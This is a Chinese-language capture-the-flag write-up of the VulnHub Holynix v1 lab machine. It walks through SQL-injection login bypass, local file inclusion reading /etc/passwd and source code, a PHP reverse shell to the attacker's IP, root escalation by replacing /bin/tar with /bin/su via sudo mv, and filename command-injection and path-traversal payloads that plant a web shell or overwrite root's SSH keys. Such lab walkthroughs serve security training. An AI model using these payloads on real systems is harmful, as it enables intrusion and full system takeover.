# 前言

**靶场介绍：**

巧妙运用 SQL 注入和 LFI

- **holynix-v1.tar.bz2** （大小：239 MB）
- **下载（镜像）**：[https://download.vulnhub.com/holynix/holynix-v1.tar.bz2](https://download.vulnhub.com/holynix/holynix-v1.tar.bz2)
- 修改网卡 MAC 地址：00:0C:29:BC:05:DE

**涉及工具：**

- Nmap
- Dirsearch
- Python



# 1. 信息收集

## 1.1 Nmap 信息扫描

### 端口扫描

首先使用 Nmap 对目标主机进行全面的端口和服务扫描，发现目标仅对外开放了 `80` 端口。

```bash
80/tcp open  http
```

### 详细信息

```bash
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.12 with Suhosin-Patch)
|_http-server-header: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.12 with Suhosin-Patch
|_http-title: Site doesn't have a title (text/html).
MAC Address: 00:0C:29:BC:05:DE (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|WAP|specialized|proxy server|router|media device|phone
Running (JUST GUESSING): Linux 2.6.X (94%), PheeNet embedded (90%), Citrix XenServer 5.X (89%), WebSense embedded (89%), Linksys embedded (89%), Sonos embedded (88%), ipTIME embedded (87%), Google Android 4.0.X (87%)
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/h:pheenet:wap-854gp cpe:/o:citrix:xenserver:5.5 cpe:/h:linksys:rv042 cpe:/h:sonos:zoneplayer cpe:/h:iptime:pro_54g cpe:/o:google:android:4.0.4
Aggressive OS guesses: Linux 2.6.18 - 2.6.24 (94%), Linux 2.6.24 - 2.6.25 (92%), Linux 2.6.18 - 2.6.32 (91%), PheeNet WAP-854GP WAP (90%), Citrix XenServer 5.5 (Linux 2.6.18) (89%), Linux 2.6.9 - 2.6.33 (89%), WebSense proxy appliance (Linux 2.6) (89%), Linksys RV042 router (89%), Linux 2.6.35 (88%), Linux 2.6.16 (88%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop
```


### 漏洞扫描

```bash
PORT   STATE SERVICE
80/tcp open  http
|_http-vuln-cve2017-1001000: ERROR: Script execution failed (use -d to debug)
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-trace: TRACE is enabled
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       http://ha.ckers.org/slowloris/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
| http-enum: 
|   /login.php: Possible admin folder
|   /login/: Login page
|   /home/: Potentially interesting folder
|   /icons/: Potentially interesting folder w/ directory listing
|   /img/: Potentially interesting folder
|   /index/: Potentially interesting folder
|   /misc/: Potentially interesting folder
|   /transfer/: Potentially interesting folder
|_  /upload/: Potentially interesting folder
MAC Address: 00:0C:29:BC:05:DE (VMware)

Nmap done: 1 IP address (1 host up) scanned in 321.32 seconds

```

# 2. Web 渗透

## 页面信息检索（/）

访问 80 端口后，页面是一个简单的系统，主要有 `login` 和 `home` 两个指向。



#### **页面源码：**



### LFI 测试

点击 `login` 时，观察到 URL 变成了 `http://192.168.200.148/index.php?page=login.php`。这种 `?page=` 的参数传递方式极易存在**本地文件包含（LFI）漏洞**。





页面返回报错：

```
Warning: include(404.html) [function.include]: failed to open stream: No such file or directory in /var/apache2/htdocs/index.php on line 10

Warning: include() [function.include]: Failed opening '404.html' for inclusion (include_path='.:/usr/share/php:/usr/share/pear') in /var/apache2/htdocs/index.php on line 10
```

>报错信息直接证实了后端使用了 `include()` 函数拼接了 `$page` 参数，并且没有对输入进行严格过滤。虽然这里提示没有权限或找不到文件，但这确认了 LFI 漏洞的存在，我们可以把它作为后续读取系统文件或配合触发 Webshell 的重要手段。


### 登录框 SQL 注入漏洞利用

回看我们之前点击 `login` 时，页面出现了一个登录的表单。对于这种极简的自研后台，首先考虑是否存在 SQL 注入的可能性。

为了探测闭合符号，我们在 Username 和 Password 两个表单中同时输入 `'` ，可以看到输入后页面返回了报错，证实了存在 SQL 注入的可能性



#### 万能密钥

由于存在 SQL 注入，我们在 Username 和 Password 两个表单中同时输入万能密钥进行盲测：

```sql
' or 1=1 -- -
```



> **问题：为什么要在两个表单中同时输入万能密钥呢？**
>
>因为在不清楚后端代码的情况下，我们无法确定 SQL 语句的具体拼接逻辑（后端是先查 username 存在与否，还是把 username 和 password 放在一个 WHERE 语句里同时比对）。在两个输入框同时注入闭合符和永真条件，可以最大概率地破坏原有的 SQL 结构并触发闭合，实现绕过。

#### 登录成功




## 页面信息检索（index.php）

提示登录用户为 alamo



员工表单




留言




留言板



upload



安全手册



### 寻找文件上传与越权突破点

登录后，在页面发现 `upload.php`。现在的目标很明确：利用文件上传漏洞传一个 Kali 自带的 PHP 反弹 Shell (`php-reverse-shell.php`)。

但尝试上传时，系统无情地提示：`Home directory uploading disabled for user alamo`（当前用户没有上传权限）。




#### **突破口：Cookie 越权** 

按 F12 检查网页状态，查看浏览器的 Cookie 信息。发现 cookie id 设置得非常简单，完全可以通过 cookie 越权切换其他的用户。



#### 突破口 2：SQL 注入切换用户

回看我们是通过万能密钥登录进来的，当然可以通过注入切换到其他用户。但是这里遇到了一个问题，其他用户的用户名我不是很清楚，这怎么办？

回显页面，有一个员工表单，我们可以一个一个去试上面的员工姓名，留言本上的员工姓名更可疑。不过我这里有一个发现，在 `?page=ssp.php` 这个页面存在一个 LFI 的漏洞，使我们自己得到了当前系统的用户名。

```
http://192.168.200.148/index.php?page=ssp.php&text_file_name=/etc/passwd
```




### 构造 Payload:

Payload:

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.200.142/4444 0>&1'"); ?>
```

Kali 自带反弹 Shell:

```bash
locate php-reverse-shell.php
```




### 代码审计与 Shell 触发

在确认当前用户具备上传权限后，我们成功上传了文件，但页面并没有回显文件存储的绝对路径。为了找到我们上传的 WebShell，我们需要弄清楚后端的处理逻辑。

既然存在 LFI 漏洞，我们可以直接读取 `upload.php` 的后端源码。为了防止 PHP 代码在页面上被直接执行导致无法查看，我们配合 PHP 伪协议（`php://filter`）将其转为 Base64 编码读出：

```
http://192.168.200.148/index.php?page=ssp.php&text_file_name=php://filter/convert.base64-encode/resource=upload.php
```



将获取到的 Base64 字符串解码后，得到关键的上传逻辑代码如下：

```php
// ... [前面的权限验证部分省略] ...
$homedir = "/home/".$logged_in_user. "/";
$uploaddir = "upload/";
$target = $uploaddir . basename( $_FILES['uploaded']['name']) ;
$uploaded_type = $_FILES['uploaded']['type'];
$command=0;

// 判断是否为 gzip 压缩包且开启了自动解压
if ( $uploaded_type =="application/gzip" && $_POST['autoextract'] == 'true' ) { $command = 1; }

if(move_uploaded_file($_FILES['uploaded']['tmp_name'], $target)) {
    // 成功上传到临时目录后的处理逻辑
    if ( $command == 1 ) {
        // 如果是 gzip 压缩包，以 root 权限执行 tar 解压到用户家目录
        exec("sudo tar xzf " .$target. " -C " .$homedir);
        exec("rm " .$target);
    } else {
        // 如果是普通文件，以 root 权限执行 mv 移动到用户家目录
        exec("sudo mv " .$target. " " .$homedir . $_FILES['uploaded']['name']);
    }
    exec("/var/apache2/htdocs/update_own");
}
// ... [后续代码省略] ...
```

#### 源码审计分析

通过分析上述代码，可以得出两个核心结论：

1. **文件去向：** 无论我们上传的是普通文件还是 `.tar.gz` 压缩包，文件最终都会被移动或解压到当前登录用户的家目录下（即 `$homedir = "/home/etenenbaum/"`）。
    
2. **提权伏笔：** 系统在移动或解压文件时，竟然使用了 `sudo mv` 和 `sudo tar`。这意味着系统允许 `www-data` 用户以 `root` 权限执行这两个命令，这为后续的提权留下了巨大的隐患。
    

#### 触发反弹 Shell

已知文件存放在了 `/home/etenenbaum/` 目录下。结合通常的 Apache 用户目录配置（通常配置为允许通过 `~用户名` 访问家目录下的 `public_html` 类似结构），我们猜测可以直接通过 Web 路径访问该用户的家目录。

尝试在浏览器中访问：

```plaintext
http://192.168.200.148/~etenenbaum/
```

页面成功返回了该目录的索引（Directory Listing），我们上传的 `shell.php` 赫然在列！

此时，在攻击机（Kali）上开启 nc 监听：

```bash
sudo nc -lvnp 4444
```



最后，在浏览器中点击 `shell.php`（或直接访问 `http://192.168.200.148/~etenenbaum/shell.php`）触发代码执行。攻击机终端成功接收到反弹链接，获取到目标主机的初始立足点（`www-data` 权限）。


上传文件。提示上传到了用户主目录




代码审计，寻找上传后文件的路径 /ip/~用户名



nc 反弹链接成功


## 信息收集
### 目录爆破

```bash
[06:57:47] 200 -   63B  - /footer.php                                       
[06:57:47] 200 -   63B  - /footer
[06:57:47] 200 -  604B  - /header.php                                       
[06:57:47] 200 -  604B  - /header                                           
[06:57:47] 200 -  109B  - /home                                             
[06:57:47] 200 -  109B  - /home.php                                         
[06:57:48] 301 -  356B  - /img  ->  http://192.168.200.148/img/             
[06:57:49] 200 -  342B  - /login                                            
[06:57:49] 200 -  342B  - /login.php                                        
[06:57:49] 200 -  342B  - /login/admin/                                     
[06:57:49] 200 -  342B  - /login/
[06:57:49] 200 -  342B  - /login/admin/admin.asp
[06:57:49] 200 -  342B  - /login/administrator/
[06:57:49] 200 -  342B  - /login/cpanel.php
[06:57:49] 200 -  342B  - /login/cpanel.aspx
[06:57:49] 200 -  342B  - /login/cpanel.jsp
[06:57:49] 200 -  342B  - /login/cpanel.html
[06:57:49] 200 -  342B  - /login/cpanel/
[06:57:49] 200 -  342B  - /login/login
[06:57:49] 200 -  342B  - /login/index
[06:57:49] 200 -  342B  - /login/cpanel.js
[06:57:49] 200 -  342B  - /login/super
[06:57:49] 200 -  342B  - /login/oauth/
[06:57:50] 301 -  357B  - /misc  ->  http://192.168.200.148/misc/           
[06:57:53] 403 -  336B  - /server-status                                    
[06:57:53] 403 -  337B  - /server-status/                                   
[06:57:56] 200 -   44B  - /transfer                                         
[06:57:56] 301 -  359B  - /upload  ->  http://192.168.200.148/upload/       
[06:57:56] 200 -   44B  - /upload.php                                       
[06:57:56] 200 -   26B  - /upload/                                          
[06:57:58] 301 -  360B  - /~backup  ->  http://192.168.200.148/~backup/     
[06:57:58] 301 -  360B  - /~daemon  ->  http://192.168.200.148/~daemon/
[06:57:58] 301 -  357B  - /~bin  ->  http://192.168.200.148/~bin/
[06:57:58] 301 -  359B  - /~games  ->  http://192.168.200.148/~games/       
[06:57:58] 301 -  358B  - /~mail  ->  http://192.168.200.148/~mail/         
[06:57:58] 301 -  358B  - /~sync  ->  http://192.168.200.148/~sync/ 
```

### /etc/passwd

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
dhcp:x:101:102::/nonexistent:/bin/false
syslog:x:102:103::/home/syslog:/bin/false
klog:x:103:104::/home/klog:/bin/false
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
mysql:x:105:114:MySQL Server,,,:/var/lib/mysql:/bin/false
alamo:x:1000:115::/home/alamo:/bin/bash
etenenbaum:x:1001:100::/home/etenenbaum:/bin/bash
gmckinnon:x:1002:100::/home/gmckinnon:/bin/bash
hreiser:x:1003:50::/home/hreiser:/bin/bash
jdraper:x:1004:100::/home/jdraper:/bin/bash
jjames:x:1005:50::/home/jjames:/bin/bash
jljohansen:x:1006:115::/home/jljohansen:/bin/bash
ltorvalds:x:1007:113::/home/ltorvalds:/bin/bash
kpoulsen:x:1008:100::/home/kpoulsen:/bin/bash
mrbutler:x:1009:50::/home/mrbutler:/bin/bash
rtmorris:x:1010:100::/home/rtmorris:/bin/bash

```


### upload 文件处理源码：

```php
<?php
if ( $auth == 0 ) {
        echo "<center><h2>Content Restricted</h2></center>";
} else {
	if ( $upload == 1 )
	{
		$homedir = "/home/".$logged_in_user. "/";
		$uploaddir = "upload/";
		$target = $uploaddir . basename( $_FILES['uploaded']['name']) ;
		$uploaded_type = $_FILES['uploaded']['type'];
		$command=0;
		$ok=1;

		if ( $uploaded_type =="application/gzip" && $_POST['autoextract'] == 'true' ) {	$command = 1; }

		if ($ok==0)
		{
			echo "Sorry your file was not uploaded";
			echo "<a href='?index.php?page=upload.php' >Back to upload page</a>";
		} else {
        		if(move_uploaded_file($_FILES['uploaded']['tmp_name'], $target))
			{
				echo "<h3>The file '" .$_FILES['uploaded']['name']. "' has been uploaded.</h3><br />";
				echo "The ownership of the uploaded file(s) have been changed accordingly.";
				echo "<br /><a href='?page=upload.php' >Back to upload page</a>";
				if ( $command == 1 )
				{
					exec("sudo tar xzf " .$target. " -C " .$homedir);
					exec("rm " .$target);
				} else {
					exec("sudo mv " .$target. " " .$homedir . $_FILES['uploaded']['name']);
				}
				exec("/var/apache2/htdocs/update_own");
        		} else {
				echo "Sorry, there was a problem uploading your file.<br />";
				echo "<br /><a href='?page=upload.php' >Back to upload page</a>";
			}
		}
	} else { echo "<br /><br /><h3>Home directory uploading disabled for user " .$logged_in_user. "</h3>"; }
}
?>

```

---
# 3. 权限提升

### 3.1 提高 Shell 交互性

通过 WebShell 反弹回来的终端通常是一个非交互式的残缺 Shell（比如无法使用 Tab 补全、没有命令历史、无法正常使用 Vim 等）。为了方便后续操作，我们需要先将其升级为完全交互式的 TTY Shell。

列出软件包，老版本默认按照 python2

```
dpkg -l |grep python
```



```
$ python -c 'import pty;pty.spawn("/bin/bash")'
```



> 这行代码做了什么？

这行代码利用 Python 内置的 `pty` 模块，在目标机器上模拟了一个真实的终端环境：

- **`import pty`**: 加载 Python 的伪终端库。
    
- **`pty.spawn("/bin/bash")`**:
    
    1. 它会创建一个**伪终端主从设备对**。
        
    2. 它启动一个子进程（这里是 `/bin/bash`）。
        
    3. 它将子进程的标准输入、输出和错误重定向到伪终端上。
        
---
## 3.2 信息收集与寻找立足点

获得稳定的 Shell 后，按惯例进行基础的提权信息枚举。

查看当前用户身份及所属组：

```bash
www-data@holynix:/$ whoami
www-data
www-data@holynix:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

**关键突破口：** 

使用 `sudo -l` 检查当前用户能够以 root 身份执行哪些特权命令：

```
www-data@holynix:/$ sudo -l
sudo -l
User www-data may run the following commands on this host:
    (root) NOPASSWD: /bin/chown
    (root) NOPASSWD: /bin/chgrp
    (root) NOPASSWD: /bin/tar
    (root) NOPASSWD: /bin/mv
```

>系统配置极其危险，允许 `www-data` 用户无需密码即可使用 `sudo` 执行修改文件所有者 (`chown`/`chgrp`)、移动文件 (`mv`) 以及打包压缩 (`tar`) 的命令。

## 3.3 避坑指南：为什么修改文件所有者 (Owner) 无法提权？

在这里遇到过一个常见的思维误区：_既然我可以用 `sudo chown`，那我直接把上传的反弹 Shell 脚本所有者改成 root，运行它不就获得 root 权限了吗？为什么弹回来的还是 `www-data`？_

这是因为混淆了**文件权限**与**进程执行上下文**的概念：

1. **进程的执行上下文 (Execution Context)** 无论你将上传的文件的所有者（Owner）改成谁（即使是 root），当你是通过网页（Web 服务）去访问或触发这个文件时，执行这个文件的“父进程”是 Web 服务器（例如 Apache 或 Nginx）。
    
    - Web 服务器程序在系统底层默认是以 `www-data` 用户的身份运行的。
        
    - 在 Linux 系统中，**子进程会严格继承父进程的权限**。因此，由 Web 服务器触发的任何脚本或程序，默认都会以 `www-data` 的身份去执行，与文件本身的属主无关。
        
2. **文件所有者 (Owner) ≠ 运行权限** 仅仅把文件的属主改成 root（例如通过命令 `sudo chown root shell.php`），并不会让它在执行时自动跃升为 root 权限（除非设置了特殊的 SUID 标志）。这仅仅意味着 root 用户“拥有”这个文件，别人无法轻易修改、覆盖或删除它。













> 直接上传和压缩包解压上传的区别

> 怎么改文件权限获得的 WebShell 都是 www-data






## 3.4 利用 sudo mv 和 tar 实现提权

既然无法通过直接执行文件来提权，我们可以利用 `sudo mv`（移动/重命名）和 `sudo tar` 来进行“二进制文件劫持”（也称移花接木）。

**核心思路：** 利用 `sudo mv` 将系统中正常的高权限命令（`tar`）替换为可以切换用户的命令（`su` 或 `bash`）。当我们再次执行 `sudo tar` 时，实际上执行的是被伪装的提权命令。

**提权实操步骤：**

1. **备份原程序：** 将原本的 `/bin/tar` 移动并重命名为 `.bak`，腾出位置。

   ```bash
   www-data@holynix:/home/etenenbaum$ sudo mv /bin/tar /bin/tar.bak
   ```

\
2. **移花接木：** 将系统自带的切换用户命令 `/bin/su` 移动到原本 `/bin/tar` 的位置。

   ```bash
   www-data@holynix:/home/etenenbaum$ sudo mv /bin/su /bin/tar
   ```

\
3. **触发提权：** 此时执行 `sudo tar`。系统以为你在一如既往地执行合法的 tar 打包命令，并赋予其 root 权限；但实际上，它运行的是 `su`（Switch User）。由于带有 `sudo` 的特权加持，`su` 会直接免密切换到 root 账户。

   ```bash
   www-data@holynix:/home/etenenbaum$ sudo tar
   ```

\
4. **验证权限：**
   ```bash
   root@holynix:/home/etenenbaum# whoami
   root
   root@holynix:/home/etenenbaum# id
   uid=0(root) gid=0(root) groups=0(root)
   ```
至此，成功获取最高权限，拿下靶机！



# 4. 总结

主机发现之后，我们通过端口扫描，看到只有 80 端口是开放的，我们在进行 Nmap 的其他扫描的同时，我们把浏览器打开，看到了 80 端口的网站，网站很简单，有两个链接指向 home 和 login。

那我们就通过 login 简单的观察之后，我们发现很可能有 SQL 注入，因为是一个独立开发的一个简单的网站，在我们尝试了几条 SQL 注入的语句之后，我们进到了系统的后台里边，有上传文件，也有文件包含。

文件包含，我们经过简单的测试，发现它的确是一个漏洞，但是文件上传可以提交文件，但却无法成功上传，然后我们通过文件包含，看到系统里面还有其他目录，在 passwd 的文件里面显示出了若干个可用的用户。

然后我们顺势把第二个用户的信息拿到，然后我们退出刚才通过 SQL 注入进到的账号，在登录界面，我们构造我们的 SQL 注入语句，用刚刚我们从 /etc/passwd 文件中，提取的用户名去登录，并且成功的登录到系统，这样我们再试上传文件是不是可用的，重新构造了一下我们的 shell 文件。

通过 upload 成功上传到后台，并且能够在 etenenbaum 这个用户的家目录下，看到我们的反弹 Shell，执行我们的反弹 Shell 之后，在我们的 Kali 上获得了系统的初级权限，然后我们试着提前在 `sudo -l` 这个命令下，是有几个命令可以用的，然后我们通过简单的重命名，我们获得了系统的 Shell。


# 5. 其他方法

针对这段代码中的【命令注入漏洞】以及潜在的【目录穿越任意文件覆盖漏洞】，在真实的打靶（Vulnhub/HTB）或渗透测试环境中，我们需要通过**操纵 HTTP 数据包**来构造 Payload，因为普通的操作系统（Windows/Mac）由于文件系统限制，通常不允许你创建带有特殊字符（如 `;`、`|`、`/`）的文件名。

以下是两种经典的攻击利用思路和具体构造方法：

### 思路一：利用命令截断（获取 WebShell 或反弹 Shell）

这是最典型的命令注入打法。程序的 `mv` 或 `tar` 分支都可以被利用。

**目标漏洞代码段：**
`exec("sudo mv " .$target. " " .$homedir . $_FILES['uploaded']['name']);`

**1. 构造与抓包：**
正常上传一个普通文件（例如 `test.txt`），并使用 **Burp Suite** 拦截这个 HTTP POST 请求。

**2. 修改文件名 (Payload 注入)：**
在请求体中找到 `Content-Disposition: form-data; name="uploaded"; filename="test.txt"`。
将 `filename` 修改为你想要执行的 Linux 命令序列。

*   **修改为：** `filename="a; bash -i >& /dev/tcp/你的攻击机IP/4444 0>&1; #"`
*   *(备选写 Webshell 方案)*：`filename="a; echo '<?php system(\$_REQUEST[\'cmd\']); ?>' > /var/apache2/htdocs/shell.php; #"`

**3. 原理解析：**
`basename()` 不会过滤分号 `;`，因此 `$target` 会变成 `upload/a; bash...`。
最终 PHP 给到系统底层执行的命令会变成：
```bash
# 假设 $homedir 为 /home/user/
sudo mv upload/a; bash -i >& /dev/tcp/攻击机IP/4444 0>&1; # /home/user/a; bash...
```
系统会将其拆分为三条指令执行：
1. `sudo mv upload/a` （必定执行失败报错，因为上传到临时目录的文件名叫 `a; bash...` 而不是 `a`，但这不影响接下来的执行）。
2. `bash -i >& /dev/tcp/攻击机IP/4444 0>&1` （**成功执行你的反弹 Shell 命令**，由于没有带 sudo，这会以 `www-data` web 用户的身份运行）。
3. `# /home/user/...`（井号将后面程序拼接的垃圾路径全部作为注释忽略，防止语法报错中断命令）。





---

### 思路二：神仙打法——利用 sudo 和 $_FILES 目录穿越（直接秒变 Root 👑）

如果你仔细观察 `mv` 分支的代码，你会发现这是一个非常严重的二次逻辑漏洞：

`exec("sudo mv " .$target. " " .$homedir . $_FILES['uploaded']['name']);`

*   前半截 `$target` 由于之前套了 `basename()`，文件被安全地保存在了 `upload/` 目录下。
*   **但是后半截 `$homedir . $_FILES['uploaded']['name']` 竟然忘了过滤！** 直接用了原始的上传名！
*   更要命的是，这个移动操作使用了 **`sudo mv`**（Root 权限）。

这就意味着，**你有能力让系统以 Root 的身份，将你上传的任何文件，移动甚至覆盖到系统的任何地方！**

**实战构造：SSH 公钥覆盖**

1.  在你的攻击机（Kali）上生成一对 SSH 密钥：
    `ssh-keygen -t rsa -f mykey`
2.  将生成的公钥 `mykey.pub` 重命名为 `authorized_keys` 并作为文件上传。
3.  在 **Burp Suite** 拦截请求。
4.  将上传的 `filename` 修改为含有大量 `../` 的目录穿越路径，目标指向 root 用户的 SSH 存放目录：
    `filename="../../../../../../../root/.ssh/authorized_keys"`
5.  放行请求。

**原理解析：**
系统最终执行的命令是：
```bash
sudo mv upload/authorized_keys /home/user/../../../../../../../root/.ssh/authorized_keys
```
由于带有 `sudo`，Linux 系统将毫无怨言地执行。你上传的公钥将以最高权限直接覆盖 `/root/.ssh/authorized_keys`。

**后续：**
在 Kali 上直接执行：`ssh -i mykey root@靶机IP`
你甚至不需要去提权，直接就以 Root 身份登录了靶机！
